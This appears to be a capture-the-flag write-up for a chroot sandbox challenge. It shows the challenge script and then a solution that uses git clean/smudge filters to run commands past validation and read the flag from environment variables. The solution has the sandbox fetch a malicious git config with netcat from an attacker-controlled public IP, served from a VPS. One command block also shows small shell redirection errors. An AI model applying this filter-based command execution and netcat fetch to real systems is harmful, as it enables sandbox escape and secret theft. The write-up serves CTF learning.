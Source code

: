 ```shell
# run.sh
#!/bin/bash

# FLAG is in the environment variable

rootdir="$(mktemp -d)"
trap "{ rm -rf '$rootdir'; }" EXIT
mkdir "$rootdir/bin"
cp -a /chroot/bin "$rootdir"
mkdir "$rootdir/root"
mkdir "$rootdir/work"
mkdir "$rootdir/dev"
mknod "$rootdir/dev/null" c 1 3
chmod 666 "$rootdir/dev/null"

exec /chroot/bin/busybox sh -c "exec chroot '$rootdir' /bin/jail"
```

This is a sandbox where we cannot do many things. How to read environment variables? Steps:

1. Use .gitattrbutes + .git/config using git filter to run custom command to bypass validation
2. Pull .git/config from network to bypass `env` validation
3. Trigger git filter again to run `busybox env`

First, prepare a VPS, write a file like this:

``config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[filter "test"]
        clean = busybox env
        smudge = cat
```

This will be downloaded by the sandbox, so a public IP is required. Use nc to serve it:

```shell
# run in background in VPS
cat config | nc -l -p 2223 -v
```

Then, we download the config in the sandbox:

```shell
echo *.c filter=test > .gitattributes
echo [filter "test"] >> .git/config
echo clean = busybox nc YOUR_PUBLIC_IP_HERE 2223 > .git/config >> .git/config
echo smudge = cat >> .git/config
git add .gitattributes
touch test.c
git add .
```
